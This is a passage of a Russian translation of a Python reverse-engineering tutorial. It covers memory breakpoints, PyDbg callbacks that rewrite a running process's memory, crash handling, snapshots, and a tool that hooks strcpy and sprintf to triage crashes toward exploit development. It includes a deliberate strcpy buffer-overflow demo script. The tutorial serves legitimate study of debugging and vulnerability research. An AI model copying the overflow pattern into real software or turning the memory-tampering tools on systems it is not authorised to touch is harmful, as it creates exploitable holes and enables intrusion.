Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 2 Thread ID: 2228
Event Code: 1 Thread ID: 2228
[>] Exception address: 0x7c901230
[>] Hit the first breakpoint.
Event Code: 4 Thread ID: 2228
Event Code: 1 Thread ID: 3704
[>] Hardware breakpoint removed.
\end{lstlisting}

Основываясь на выводе скрипта – можно видеть, что после срабатывания исключения обработчик удаляет брейкпойнт. Цикл продолжит выполняться после того, как отработает обработчик. Теперь у нас есть поддержка программных и аппаратных брейкпойнтов, давайте завершим создание нашего отладчика, добавив поддержку брейкпойнтов на память.

\subsection{Брейкпоинты на память}

Заключительная функцией, которую мы реализуем, будет брейкпойнт на память. В начале, мы просто запросим информацию о разделе памяти, что бы определить, где находится ее базовый адрес (где в виртуальной памяти начинается страница). После того, как мы определили размер страницы, нам нужно установить права доступа на эту страницу, что бы обеспечить ее охрану. Когда процессор попытается получить доступ к этой памяти, сработает исключение GUARD\_PAGE\_EXCEPTION. Используя специфический обработчик, для данного исключения, мы вернем оригинальный права доступа для страницы и продолжим выполнение.

Для того, что бы правильно рассчитать размер страницы, которой мы собираемся манипулировать, нужно вначале обратиться с запросом к операционной системе, что бы получить размер страницы по умолчанию. Это делается с помощью функции GetSystemInfo() [20], которая заполняет структуру SYSTEM\_INFO [21]. Эта структура содержит поле dwPageSize, в котором находится правильный, для системы, размер страницы. Мы реализуем этот шаг, во время инициализации первого экземпляра класса debugger().

Example 8: my\_debugger.py
Код:
\begin{lstlisting}
...
class debugger():

    def __init__(self):
        self.h_process = None
        self.pid = None
        self.debugger_active = False
        self.h_thread = None
        self.context = None
        self.breakpoints = {}
        self.first_breakpoint= True
        self.hardware_breakpoints = {}

        # Here let's determine and store
        # the default page size for the system
        system_info = SYSTEM_INFO()
        kernel32.GetSystemInfo(byref(system_info))
        self.page_size = system_info.dwPageSize
    ...
\end{lstlisting}

Теперь, когда получен размер страницы по умолчанию, мы готовы обращаться к странице и манипулировать ее правами. Первый шаг, заключается в запросе страницы, на адрес которой мы хотели бы установить брейкпойнт. Это делается с помощью функции VirtualQueryEx() [22], которая заполняет структуру MEMORY\_BASIC\_INFORMATION [23] характерными значениями для страницы, которую мы запрашиваем. Ниже приводятся определения для функции и структуры:

Код:
\begin{lstlisting}
SIZE_T WINAPI VirtualQuery(
    HANDLE hProcess,
    LPCVOID lpAddress,
    PMEMORY_BASIC_INFORMATION lpBuffer,
    SIZE_T dwLength
);

typedef struct MEMORY_BASIC_INFORMATION{
    PVOID BaseAddress;
    PVOID AllocationBase;
    DWORD AllocationProtect;
    SIZE_T RegionSize;
    DWORD State;
    DWORD Protect;
    DWORD Type;
}
\end{lstlisting}

Как только структура была заполнена, будем использовать значение в поле BaseAddress, как начальную точку для установки прав доступа на страницу. Для установки правд доступа используется функция VirtualProtectEx() [24], которая имеет следующий прототип:

Код:
\begin{lstlisting}
BOOL WINAPI VirtualProtectEx(
    HANDLE hProcess,
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD flNewProtect,
    PDWORD lpflOldProtect
);
\end{lstlisting}

Итак, давайте перейдем к коду. Мы собираемся создать глобальный список защищенных страниц, которые нам нужно явно установить, так же как и глобальный список брейкпойнтов, на адреса в памяти, которые наш обработчик исключений будет использовать, когда произойдет исключение GUARD\_PAGE\_EXCEPTION. Затем установим права доступа на адрес и окружающие его страницы памяти (если адрес находится между двумя или более страницами памяти).

Example 8: my\_debugger.py
Код:
\begin{lstlisting}
...
class debugger():

    def __init__(self):
        ...
        self.guarded_pages = []
        self.memory_breakpoints = {}
    ...

    def bp_set_mem (self, address, size):
        mbi = MEMORY_BASIC_INFORMATION()

        # If our VirtualQueryEx() call doesn’t return
        # a full-sized MEMORY_BASIC_INFORMATION
        # then return False

        if kernel32.VirtualQueryEx(self.h_process,
                                           address,
                                           byref(mbi),
                                           sizeof(mbi)) < sizeof(mbi):
            return False

        current_page = mbi.BaseAddress

        # We will set the permissions on all pages that are
        # affected by our memory breakpoint.
        while current_page <= address + size:

            # Add the page to the list; this will
            # differentiate our guarded pages from those
            # that were set by the OS or the debuggee process
            self.guarded_pages.append(current_page)

            old_protection = c_ulong(0)
            if not kernel32.VirtualProtectEx(self.h_process,
                                                      current_page,
                                                      size,
                                                      mbi.Protect | PAGE_GUARD,
                                                      byref(old_protection)):
                return False

            # Increase our range by the size of the
            # default system memory page size
            current_page += self.page_size

        # Add the memory breakpoint to our global list
        self.memory_breakpoints[address] = (address, size, mbi)

        return True
\end{lstlisting}

Теперь у вас есть возможность устанавливать брэйкпоинты на память. Если вы опробуете их, в текущем состоянии, используя нашу функцию printf() зацикленную в цикле, вы получите вывод, который будет просто говорить "Guard Page Access Detected". Хорошо то, что когда к защищенной странице получают доступ и срабатывает исключение, операционная система на самом деле удаляет защиту, установленную на страницу памяти, и позволяет вам продолжить выполнение. Подобное действие избавляет вас от создания специфического обработчика решающего эту задачу. Однако вы могли бы создать дополнительную логику, в существующем отладочном цикле, для выполнения определенных действий, когда срабатывает брейкпойнт. Например, вы могли бы осуществить такие действия, как: восстановление брейкпойнта, чтение памяти из места, где был установлен брэйкпоинт, приготовление свежего кофе, почесывание бороды – в общем, все что угодно.

\section{Заключение}

На этом мы завершаем разработку простого отладчика под Windows. На данный момент, вы имеете не только надежные знания для создания отладчика, но также получили некоторые очень важные навыки, которые будут полезны вам не зависимо от того занимаетесь ли вы отладкой или нет! При использовании другого отладочного инструмента, вы сможете понять, что тот делает на низком уровне. Помимо этого вы будете знать как, при необходимости, наилучшим образом, модифицировать его, конкретно под ваши нужды.

Следующие шаги будут состоять в том, что бы продемонстрировать некоторые возможности, продвинутого использования, двух сформировавшихся и стабильных отладочных платформ под Windows: PyDbg и Immunity Debugger. Вы получили большое количество информации о том, как PyDbg работает "под капотом", поэтому будете чувствовать себя комфортно, переходя к нему. Синтаксис Immunity Debugger немного отличается, но он предлагает существенно отличающийся набор функций. Понимание того, как использовать и тот и другой отладчик, для специфических задач отладки, очень важно для вас, поскольку позволит вам автоматизировать отладку. Дорогу осилит лишь тот, кто шагает! Поэтому вперед, вперед и только в перед! Переходим к PyDbg…

\section{Дополнительные материалы от переводчика}
Для самых ленивых я разбил исходные коды, приведенные в книге, на Example (Примеры). Все это добро вы можете скачать тут. Успехов =)

\chapter{PyDbg - Windows отладчик на чистом Python}

Если вы зашли так далеко, то должны хорошо представлять, как использовать Python для создания user-mode отладчика под Windows. Ну, а теперь перейдем к изучению того, как использовать мощь PyDbg, отладчика под Windows на Python’e с открытым исходным кодом. PyDbg был зарелизен Педрамом Амини (Pedram Amini) на конференции Recon, прошедшей в 2006 году в Монреале (Канада), как основной компонент PaiMei [1], который является фреймворк для реверсинга. PyDbg был использован в довольно многих инструментах, включая популярный прокси фаззер «Taof» и фаззер драйверов Windows «ioctlizer», создателем которого я и являюсь. Эту главу мы начнем с расширения обработчика брейкпойнтов, а затем перейдем к более продвинутым темам, таким как: обработка сбоев (crashes) приложений и взятие снимков (snapshots) процесса. Некоторые из инструментов, которые мы реализуем в этой главе, могут быть использованы позже, для сопровождения некоторых фаззеров, которые мы собираемся разработать. За дело!


4.1 Расширение брейкойнт-обработчиков

В предыдущей главе мы рассмотрели основы использования обработчиков для обработки определенных отладочных событий. Используя PyDbg довольно просто расширить основную функциональность, реализуя пользовательские функции обратного вызова (callback). Используя определяемые пользователем callback-функции, мы можем реализовать пользовательскую логику, в момент получения отладчиком отладочных событий. Пользовательский код, может делать различные вещи, например, чтение определенного смещения в памяти, повторная установка брейкпойнта или манипулирование памятью. Как только пользовательский код отработал, мы возвращаем управление отладчику и позволяем ему продолжить свою работу.

Функция PyDbg, для установки программных брейкпойнтов имеет следующий прототип:

Код:
\begin{lstlisting}
bp_set(address, description="",restore=True,handler=None)
\end{lstlisting}
Описание параметров:
address – адрес, где должен быть установлен программный брейкпойнт.
description – необязательный параметр, используется для задания каждому брейкпойнту своего уникального имени.
restore – определяет, будет ли брейкпойнт автоматически сброшен после своей обработки.
handler – определяет, какую callback-функцию вызвать, когда встречается этот брейкпойнт. Callback-функции, которые устанавливаются на брейкпойнт, принимают только один параметр, являющийся экземпляром класса pydbg(). Вся информация, имеющая отношение к потоку и процессу, будет сохранена в этом классе, когда тот будет передан в callback-функцию.

Давайте, реализуем пользовательскую callback-функцию. В качестве подопытного кролика мы будем использовать тестовый скрипт printf\_loop.py. В этом упражнении, мы будем запускать тестовый скрипт и считывать значение счетчика, используемого в цикле printf, из памяти – заменяя его на случайное число между 1 и 100. Правда нужно помнить то, что в действительности мы читаем и изменяем данные в нутрии исследуемого процесса. Это действительно мощно! Создайте новый файл, назвав его printf\_random.py и введите следующий код.

Example 1: printf\_random.py
Код:
%% from pydbg import *
%% from pydbg.defines import *

%% import struct
%% import random

%% # This is our user defined callback function
%% def printf_randomizer(dbg):
%%     # Read in the value of the counter at ESP + 0x8 as a DWORD
%%     parameter_addr = dbg.context.Esp + 0x8
%%     counter = dbg.read_process_memory(parameter_addr,4)

%%     # When we use read_process_memory, it returns a packed binary
%%     # string. We must first unpack it before we can use it further.
%%     counter = struct.unpack("L",counter)[0]
%%     print "Counter: %d" % int(counter)

%%     # Generate a random number and pack it into binary format
%%     # so that it is written correctly back into the process
%%     random_counter = random.randint(1,100)
%%     random_counter = struct.pack("L",random_counter)[0]

%%     # Now swap in our random number and resume the process
%%     dbg.write_process_memory(parameter_addr,random_counter)

%%     return DBG_CONTINUE

%% # Instantiate the pydbg class
%% dbg = pydbg()

%% # Now enter the PID of the printf_loop.py process
%% pid = raw_input("Enter the printf_loop.py PID: ")

%% # Attach the debugger to that process
%% dbg.attach(int(pid))

%% # Set the breakpoint with the printf_randomizer function
%% # defined as a callback
%% printf_address = dbg.func_resolve("msvcrt","printf")
%% dbg.bp_set(printf_address,description="printf_address",handler=printf_randomizer)

%% # Resume the process
%% dbg.run()
Теперь запустите оба скрипта printf\_loop.py и printf\_random.py. Вывод будет похож на тот, что показан в Таблице 4-1.


Таблица 4-1: Демонстрация манипулирования памятью процесса

Вы можете видеть, что отладчик установил брейкпойнт на четвертой итерации цикла printf, так как выведенное отладчиком значение счетчика равно 4-рем. Вы так видно, что скрипт printf\_loop.py, успешно дошел до 4-ой итерации, но вместо вывода номера 4 вывел номер 32! Тут ясно видно, как отладчик изменяет настоящее значение счетчика, заменяя его случайное, до того, как оно будет выведено отлаживаемым процессом. Это простой, но все же мощный пример того, как можно легко расширить скриптовый отладчик для выполнения дополнительных действий, при наступлении отладочных событий. Теперь посмотрим на обработку сбоев приложения с использованием PyDbg.


4.2 Обработчики событий "access violation"

Нарушение прав доступа происходит внутри процесса, когда тот пытается получить доступ к памяти, к которой у него нет доступа либо другим не допустимым образом. Ошибки, начиная с переполнения буфера и заканчивая не правильной обработкой указателей, являются теми причинами, которые приводят к нарушению доступа. С точки зрения безопасности, каждое нарушение доступам должно быть тщательно рассмотрено, поскольку может являться уязвимостью, которая впоследствии будет использована или уже используется. 

Когда происходит нарушение прав доступа, в отлаживаемом процессе, то ответственным за ее обработку является отладчик. Очень важно, что бы отладчик перехватил всю информацию, имеющую отношению, например, кадру стека, состоянию регистров и инструкциям, которые привели к возникновению нарушения. Теперь вы можете использовать эту информацию как отправную точку для написания эксплойта или создания патча.

У PyDbg есть прекрасный метод, позволяющий установить обработчик нарушения прав доступа, помимо этого есть и другие вспомогательные функции, позволяющие вывести всю информации относящуюся к сбою. Давайте вначале создадим тестовый скрипт, который будет использовать опасную функцию языка "C" strcpy() для демонстрации переполнения буфера. Следующим напишем небольшой PyDbg скрипт, для присоединения (attach) и обработки нарушения доступа. Давайте начнем с тестового скрипта. Создайте новый файл, назвав его buffer\_overflow.py, и введите следующий код:

Example 2: buffer\_overflow.py
Код:
%% from ctypes import *

%% msvcrt = cdll.msvcrt

%% # Give the debugger time to attach, then hit a button
%% raw_input("Once the debugger is attached, press any key.")

%% # Create the 5-byte destination buffer
%% buffer = c_char_p("AAAAA")

%% # The overflow string
%% overflow = "A" * 100

%% # Run the overflow
%% msvcrt.strcpy(buffer, overflow)
Теперь, когда buffer\_overflow.py создан, создайте еще один новый файл, назвав его access\_violation\_handler.py и введя следующий код.

Example 2: access\_violation\_handler.py
Код:
%% from pydbg import *
%% from pydbg.defines import *

%% # Utility libraries included with PyDbg
%% import utils

%% # This is our access violation handler
%% def check_accessv(dbg):

%%     # We skip first-chance exceptions
%%     if dbg.dbg.u.Exception.dwFirstChance:
%%         return DBG_EXCEPTION_NOT_HANDLED

%%     crash_bin = utils.crash_binning.crash_binning()
%%     crash_bin.record_crash(dbg)
%%     print crash_bin.crash_synopsis()

%%     dbg.terminate_process()

%%     return DBG_EXCEPTION_NOT_HANDLED

%% pid = raw_input("Enter the Process ID: ")

%% dbg = pydbg()
%% dbg.attach(int(pid))
%% dbg.set_callback(EXCEPTION_ACCESS_VIOLATION,check_accessv)
%% dbg.run()
Теперь запустите скрипт buffer\_overflow.py и запомните его PID; он приостановит свою работу, до того момента, пока вы не продолжите ее. Теперь запустите скрипт access\_violation\_handler.py, и введите PID тестового скрипта. Как только отладчик присоединиться, нажмите любую клавишу в консоли, где работает тестовый скрипт, после чего вы увидите вывод похожий на Листинг 4-1.

Листинг 4-1: Аварийный вывод с помощью "PyDbg crash binning utility"
Код:
%% (#1): python25.dll:1e071cd8 mov ecx,[eax+0x54] from thread 3376 caused access
%% violation when attempting to read from 0x41414195

%% (#2): CONTEXT DUMP
%%     EIP: 1e071cd8 mov ecx,[eax+0x54]
%%     EAX: 41414141 (1094795585) -> N/A
%%     EBX: 00b055d0 ( 11556304) -> @U`" B`Ox,`O )Xb@|V`"L{O+H]$6 (heap)
%%     ECX: 0021fe90 ( 2227856) -> !$4|7|4|@%,\!$H8|!OGGBG)00S\o (stack)
%%     EDX: 00a1dc60 ( 10607712) -> V0`w`W (heap)
%%     EDI: 1e071cd0 ( 503782608) -> N/A
%%     ESI: 00a84220 ( 11026976) -> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA (heap)
%%     EBP: 1e1cf448 ( 505214024) -> enable() -> NoneEnable automa (stack)
%%     ESP: 0021fe74 ( 2227828) -> 2? BUH` 7|4|@%,\!$H8|!OGGBG) (stack)
%%     +00: 00000000 ( 0) -> N/A
%%     +04: 1e063f32 ( 503725874) -> N/A
%%     +08: 00a84220 ( 11026976) -> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA (heap)
%%     +0c: 00000000 ( 0) -> N/A
%%     +10: 00000000 ( 0) -> N/A
%%     +14: 00b055c0 ( 11556288) -> @F@U`" B`Ox,`O )Xb@|V`"L{O+H]$ (heap)

%% (#3): disasm around:
%%             0x1e071cc9 int3
%%             0x1e071cca int3
%%             0x1e071ccb int3
%%             0x1e071ccc int3
%%             0x1e071ccd int3
%%             0x1e071cce int3
%%             0x1e071ccf int3
%%             0x1e071cd0 push esi
%%             0x1e071cd1 mov esi,[esp+0x8]
%%             0x1e071cd5 mov eax,[esi+0x4]
%%             0x1e071cd8 mov ecx,[eax+0x54]
%%             0x1e071cdb test ch,0x40
%%             0x1e071cde jz 0x1e071cff
%%             0x1e071ce0 mov eax,[eax+0xa4]
%%             0x1e071ce6 test eax,eax
%%             0x1e071ce8 jz 0x1e071cf4
%%             0x1e071cea push esi
%%             0x1e071ceb call eax
%%             0x1e071ced add esp,0x4
%%             0x1e071cf0 test eax,eax
%%             0x1e071cf2 jz 0x1e071cff

%% (#4): SEH unwind:
%%             0021ffe0 -> python.exe:1d00136c jmp [0x1d002040]
%%             ffffffff -> kernel32.dll:7c839aa8 push ebp
Вывод разбит на несколько частей полезной информации. Первая часть (\#1) говорит вам, какая инструкция вызвала нарушения прав доступа, а так же в каком модуле она находится. Эта информация полезна для написания эксплойта или если вы используете инструмент статического анализа для определения места неисправности. Вторая часть (\#2) является дампом всех регистров; особенно интересно то, что мы перезаписали регистр EAX значением 0x41414141 (0x41 это шестнадцатеричное значение прописной буквы А). Так же, мы можем видеть, что регистр ESI указывает на строку символов A, такую же, как указатель стека в ESP+08. Третья часть (\#3) содержит дизассемблерные инструкции до и после вызывающей ошибку инструкции. И наконец последняя часть (\#4) содержит список обработчиков SEН, которые были зарегистрированы во время неисправности.

Вы видите насколько просто установить обработчик аварийной ситуации с использованием PyDbg. Это невероятно полезная функция, позволяющая автоматизировать обработку аварийных ситуаций и произвести их анализ. Далее мы будем использовать внутренний процесс создания снапшотов (snapshot) PyDbg, который позволяет создавать контрольные точки, в исследуемом процессе, для возврата к сохраненному состоянию, после каких-то манипуляций над ним.


4.3 Снапшоты

PyDbg снабжен очень полезной функцией снапшотов. Используя которую можно заморозить процесс, получить всю его память и возобновить выполнение процесса. В любой последующий момент вы можете вернуть процесс до той контрольной точки, где был сделан снапшот. Это довольно удобно, когда исследуешь бинарный файл или анализируешь сбои в программном обеспечении.

4.3.1 Создание снапшотов

Нашим первым шагом будет получение точного состояния процесса, в котором тот находился в определенный момент времени. Для этого нам нужно, вначале, получить все потоки и соответствующие им контексты процессора. Кроме того, нам нужно получить все страницы памяти процесса и их содержание. Как только у нас будет эта информация, останется только вопрос ее сохранения, до того момента, когда мы захотим восстановиться до контрольной точки. 

Прежде, чем мы сможем сделать снапшот, нам нужно приостановить все выполняющиеся потоки, что бы они не изменили данные и состояние процесса, во время создания снапшота. Для приостановки всех потоков с помощью PyDbg, используем функцию suspend\_all\_threads(), а для восстановления, всех приостановленных потоков, используем функцию resume\_all\_threads(). Как только мы приостановили потоки, просто сделаем вызов функции process\_snapshot(). Она автоматически извлекает всю содержащуюся информацию о каждом потоке и всей памяти, в данный конкретный момент. После того как снапшот сделан, мы возобновим все приостановленные потоки. Когда мы захотим восстановить процесс до контрольной точки, нам нужно вновь приостановить все потоки, затем вызвать функцию process\_restore(), и возобновить работу потоков. После того, как мы возобновим процесс, мы вернемся в наше исходное состояние, когда был сделан снапшот (контрольная точка). Не плохо, правда?

Для демонстрации этих возможностей используем простой пример, в котором разрешим пользователю создавать и восстанавливаться из снапшотов. Создайте новый файл, назвав его snapshot.py и введите следующий код.

Example 3: snapshot.py
Код:
%% from pydbg import *
%% from pydbg.defines import *

%% import threading
%% import time
%% import sys

%% class snapshotter(object):
%%             def __init__(self,exe_path):
    
%%                 self.exe_path = exe_path
%%                 self.pid = None
%%                 self.dbg = None
%%                 self.running = True

%%                 (#1): # Start the debugger thread, and loop until it sets the PID
%%                 # of our target process
%%                 pydbg_thread = threading.Thread(target=self.start_debugger)
%%                 pydbg_thread.setDaemon(0)
%%                 pydbg_thread.start()

%%                 while self.pid == None:
%%                     time.sleep(1)

%%                 (#2): # We now have a PID and the target is running; let's get a
%%                 # second thread running to do the snapshots
%%                 monitor_thread = threading.Thread(target=self.monitor_debugger)
%%                 monitor_thread.setDaemon(0)
%%                 monitor_thread.start()

%% (#3):    def monitor_debugger(self):
                
%%                 while self.running == True:

%%                     input = raw_input("Enter: 'snap','restore' or 'quit'")
%%                     input = input.lower().strip()

%%                     if input == "quit":
%%                         print "[*] Exiting the snapshotter."
%%                         self.running = False
%%                         self.dbg.terminate_process()

%%                     elif input == "snap":

%%                         print "[*] Suspending all threads."
%%                         self.dbg.suspend_all_threads()

%%                         print "[*] Obtaining snapshot."
%%                         self.dbg.process_snapshot()

%%                         print "[*] Resuming operation."
%%                         self.dbg.resume_all_threads()

%%                     elif input == "restore":

%%                         print "[*] Suspending all threads."
%%                         self.dbg.suspend_all_threads()

%%                         print "[*] Restoring snapshot."
%%                         self.dbg.process_restore()

%%                         print "[*] Resuming operation."
%%                         self.dbg.resume_all_threads()

%% (#4):    def start_debugger(self):

%%                 self.dbg = pydbg()
%%                 pid = self.dbg.load(self.exe_path)
%%                 self.pid = self.dbg.pid

%%                 self.dbg.run()

%% (#5): exe_path = "C:\\WINDOWS\\System32\\calc.exe"
%% snapshotter(exe_path)
Итак, первый шаг (\#1) это запуск приложения под отладочным потоком. При использовании отдельных потоков, мы можем вводить команды, в консоль, без принуждения приложения делать паузу, пока оно ожидает нашего ввода. После того, как отладочный поток вернул действительный PID (\#4), мы запускаем новый поток (\#2), который использует введенные нами данные. Затем, когда мы отправим ему команду, он определит (\#3) делаем ли мы снапшот, восстановление из снапшота или выходим из приложения. В качестве примера, я выбрал Калькулятор (\#5), используя который мы сможем наблюдать процесс создания снапшотов в действии. Произведите случайные вычисления в Калькуляторе, потом введите snap в консоль нашего Python скрипта, затем снова произведите какие-нибудь вычисления или очистите результат предыдущих вычислений. Затем введите restore в консоль Python скипта и вы увидите, что появится число, отображаемое в момент снятия снапшота. Используя этот метод, вы можете прогуливаться туда-сюда по определенным частям процесса, которые предоставляют интерес, без перезагрузки самого процесса, для возобновления его точного состояния снова и снова. Теперь давайте объединим некоторые наши новые методы, основанные на применении PyDbg, для создания инструмента фаззинга, который поможет находить уязвимости в программном обеспечении и автоматизировать обработку сбоев.

4.3.2 Собираем все вместе

Теперь, когда мы рассмотрели некоторые из наиболее используемых функций PyDbg, создадим утилиту, которая поможет отыскивать потенциальные уязвимости в программном обеспечении. Некоторые функции, более склонны к переполнению буфера, уязвимостям форматной строки и повреждению памяти. Мы хотим обратить особое внимание на эти опасные функции.

Инструмент будет определять местонахождение опасных функций и отслеживать обращения к ним. Когда функция, которую мы считаем опасной, вызывается – произведем разыменовывание (получение значений) четырех параметров из стека (а так же возвращаемый адрес, вызывающего кода) и сделаем снапшот процесса, на случай, если в функции произойдет переполнение. Если будет нарушение прав доступа, наш скрипт, восстановит процесс до вызова последней опасной функции. Затем он шаг за шагом дизассемблирует каждую инструкцию, исследуемого приложения, до тех пор, пока у нас снова не сработает нарушение прав доступа или пока мы не достигнем максимального количества инструкций, которые мы хотим проверить. В любое время вы можете наблюдать вызов опасной функции, которая подбирает данные, посланные приложению и на которые стоит обращать внимание, что бы понять, можно ли манипулировать ими для достижения сбоя в приложении. Это первый шаг к созданию эксплойта.

Разогрейте пальцы (будет много кода), создайте новый файл, назвав его danger\_track.py и введя следующий код.

Example 4: danger\_track.py
Код:
%% from pydbg import *
%% from pydbg.defines import *

%% import utils

%% # This is the maximum number of instructions we will log
%% # after an access violation
%% MAX_INSTRUCTIONS = 10

%% # This is far from an exhaustive list; add more for bonus points
%% dangerous_functions = {
%%                         "strcpy" : "msvcrt.dll",
%%                         "strncpy" : "msvcrt.dll",
%%                         "sprintf" : "msvcrt.dll",
%%                         "vsprintf": "msvcrt.dll"
%%                       }

%% dangerous_functions_resolved = {}
%% crash_encountered            = False
%% instruction_count            = 0

%% def danger_handler(dbg):

%%     # We want to print out the contents of the stack; that's about it
%%     # Generally there are only going to be a few parameters, so we will
%%     # take everything from ESP to ESP+20, which should give us enough
%%     # information to determine if we own any of the data
%%     esp_offset = 0
%%     print "[*] Hit %s" % dangerous_functions_resolved[dbg.context.Eip]
%%     print "================================================================="

%%     while esp_offset <= 20:
%%         parameter = dbg.smart_dereference(dbg.context.Esp + esp_offset)
%%         print "[ESP + %d] => %s" % (esp_offset, parameter)
%%         esp_offset += 4

%%     print "=================================================================\n"

%%     dbg.suspend_all_threads()
%%     dbg.process_snapshot()
%%     dbg.resume_all_threads()

%%     return DBG_CONTINUE

%% def access_violation_handler(dbg):
%%     global crash_encountered

%%     # Something bad happened, which means something good happened :)
%%     # Let's handle the access violation and then restore the process
%%     # back to the last dangerous function that was called

%%     if dbg.dbg.u.Exception.dwFirstChance:
%%         return DBG_EXCEPTION_NOT_HANDLED

%%     crash_bin = utils.crash_binning.crash_binning()
%%     crash_bin.record_crash(dbg)
%%     print crash_bin.crash_synopsis()

%%     if crash_encountered == False:
%%         dbg.suspend_all_threads()
%%         dbg.process_restore()
%%         crash_encountered = True

%%         # We flag each thread to single step
%%         for thread_id in dbg.enumerate_threads():

%%             print "[*] Setting single step for thread: 0x%08x" % thread_id
%%             h_thread = dbg.open_thread(thread_id)
%%             dbg.single_step(True, h_thread)
%%             dbg.close_handle(h_thread)

%%         # Now resume execution, which will pass control to our
%%         # single step handler
%%         dbg.resume_all_threads()

%%         return DBG_CONTINUE
%%     else:
%%         dbg.terminate_process()

%%     return DBG_EXCEPTION_NOT_HANDLED

%% def single_step_handler(dbg):
%%     global instruction_count
%%     global crash_encountered

%%     if crash_encountered:

%%         if instruction_count == MAX_INSTRUCTIONS:

%%             dbg.single_step(False)
%%             return DBG_CONTINUE
%%         else:

%%             # Disassemble this instruction
%%             instruction = dbg.disasm(dbg.context.Eip)
%%             print "#%d\t0x%08x : %s" % (instruction_count,dbg.context.Eip, instruction)
%%             instruction_count += 1
%%             dbg.single_step(True)

%%     return DBG_CONTINUE


%% dbg = pydbg()

%% pid = int(raw_input("Enter the PID you wish to monitor: "))

%% dbg.attach(pid)

%% # Track down all of the dangerous functions and set breakpoints
%% for func in dangerous_functions.keys():

%%     func_address = dbg.func_resolve( dangerous_functions[func],func )
%%     print "[*] Resolved breakpoint: %s -> 0x%08x" % ( func, func_address )
%%     dbg.bp_set( func_address, handler = danger_handler )
%%     dangerous_functions_resolved[func_address] = func

%% dbg.set_callback( EXCEPTION_ACCESS_VIOLATION, access_violation_handler )
%% dbg.set_callback( EXCEPTION_SINGLE_STEP, single_step_handler )
%% dbg.run()
В этом блоке кода не должно быть никаких больших сюрпризов, поскольку было пройдено большинство понятий, в наших предыдущих попытках использования PyDbg. Лучший способ проверить эффективность этого скрипта – это выбрать программное обеспечение, которое, как известно, имеет уязвимость и присоединиться к нему, используя данный скрипт, а затем послать необходимые входные данные, для вызова сбоя в приложении.

Мы прошли сжатый экскурс по отладчику PyDbg и рассмотрели различные функций, которые он предоставляет. Как видите, возможности скриптового отладчика являются чрезвычайно мощными, предоставляя хорошую возможность для автоматизации задач. Единственный его недостаток заключается в том, что для каждого куска информации, который вы хотите получить, придется писать соответствующий код. Это то место, где наш следующий инструмент, Immunity Debugger, объединяет возможности скриптового и графического отладчика. Его рассмотрение продолжим в следующей главе…


4.4 Дополнительные материалы от переводчика

Исходные коды, к примерам данной главы, можно скачать тут.

\chapter{Immunity Debugger}

Рассмотрев создание и использования отладчика на чистом Python’е в виде PyDbg, пришло время изучить Immunity Debugger, который состоит из полноценного пользовательского интерфейса и наимощнейшей Python-библиотекой, на сегодняшний день, для разработки эксплойтов, обнаружения уязвимостей и анализа вредоносного кода. Выпущенный в 2007 году, Immunity Debugger имеет хорошее сочетание возможностей как динамической отладки, так и статического анализа. Помимо этого он имеет полностью настраиваемый графический интерфейс, реализованный на чистом Питоне. В начале этой главы мы кратко познакомимся с отладчиком Immunity Debugger и его пользовательским интерфейсом. Затем начнем постепенное углубление в разработку эксплойта и некоторых методов, для автоматического обхода анти-отладочных приемов, применяемых в вредоносном ПО. Давайте начнем с загрузки Immunity Debugger и его запуска.


5.1 Установка Immunity Debugger

Immunity Debugger распространяется и поддерживается [1] бесплатно, вот ссылка на его скачивание: http://debugger.immunityinc.com/

Просто скачайте и запустите установщик. Если вы еще не устанавливали Python 2.5 (прим. пер. как вам советовалось), то это не большая проблема, поскольку Immunity Debugger поставляется в комплекте с инсталлятором Python 2.5 (прим. пер. на момент перевода статьи версия Питона идущего в составе отлдачика была 2.7.1), которые будет установлен отлдачиком за вас, если возникнет такая необходимость. Сразу после установки и запуска Immunity Debugger – он будет готов к использованию.


5.2 Immunity Debugger 101

Давайте произведем быстрый обзор Immunity Debugger и его интерфейса, а затем перейдем к рассмотрению Python-библиотеки immlib, которая позволяет писать скрипты для отладчика. При первом запуске вы увидите интерфейс показанный на Рис 5-1.




Рис. 5-1: Основной интерфейс Immunity Debugger

Основной интерфейс отладчика состоит из пяти основных частей. В верхнем левом углу расположено окно CPU, где отображается ассемблерный код. В верхнем правом углу расположено окно регистров, где отображаются регистры общего назначения, а так же другие регистры процессора. В левом нижнем углу расположено окно дампа памяти, где вы можете видеть шестнадцатеричный дамп любого адресного пространства, выбранного вами. В правом нижнем углу расположено окно стека, в котором отображаются соответствующие вызовы стека; оно так же показывает вам декодированные параметры функций в виде символьной информации (например, какой-нибудь родной вызов Windows API функции). Пятый элемент – это белая панель командной строки, расположенная в самом низу и предназначенная для управления отладчиком, с помощью команд в WinDbg-стиле. Здесь же вы можете выполнять PyCommands, которые мы рассмотрим дальше.

5.2.1 PyCommands

Основной способ выполнения Python-скриптов в Immunity Debugger заключается в использовании PyCommands [2]. PyCommands – это Python-скрипты, которые написаны для выполнения различных задач внутри Immunity Debugger, например, скрипты осуществляющие: различные перехваты, статический анализ или любой другой отладочный фукнционал. Каждый PyCommand должен иметь определенную структуру, для своего правильного выполнения. Следующий фрагмент кода показывает основную структуру PyCommand, которую вы можете использовать в качестве шаблона, для создания собственных PyCommands.

Код:
%% from immlib import *

%% def main(args):
%%     # Instantiate a immlib.Debugger instance
%%     imm = Debugger()

%%     return "[*] PyCommand Executed!"
В каждом PyCommand есть две основные составляющие. Первая составляющая, у вас должна быть определена функция main(), которая должна принимать один параметр, являющийся списком аргументов передаваемых в PyCommand. Вторая составляющая, заключается в том, что main() должна возвратить «строку», когда закончит свое выполнение. Этой строкой будет обновлена «строка состояния отладчика» (прим. пер. находящаяся под командной строкой), когда скрипт закончит выполнение.

Когда вы захотите запустить PyCommand, вам следует убедиться в том, что ваш скрипт сохранен в директории PyCommands, которая находится в основном установочном каталоге Immunity Debugger. Для выполнения сохраненного скрипта, просто введите восклицательный знак сопровождаемый именем скрипта, в командной строке отладчика, вот так:

Код:
